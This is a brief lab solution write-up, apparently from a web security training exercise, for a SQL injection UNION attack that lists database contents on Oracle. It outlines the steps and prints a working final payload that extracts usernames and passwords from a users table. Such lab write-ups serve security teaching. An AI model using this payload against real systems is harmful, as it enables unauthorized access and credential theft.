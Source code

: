 # Lab 6: SQL Injection UNION Attack, Listing the Database Contents on Oracle Databases

* **Solution**: Confirm 2 columns, test string compatibility, then extract usernames and passwords from users using Oracle’s || concatenation.
* **Final Payload**: category=Gifts' UNION SELECT NULL, username || '.' || password FROM users --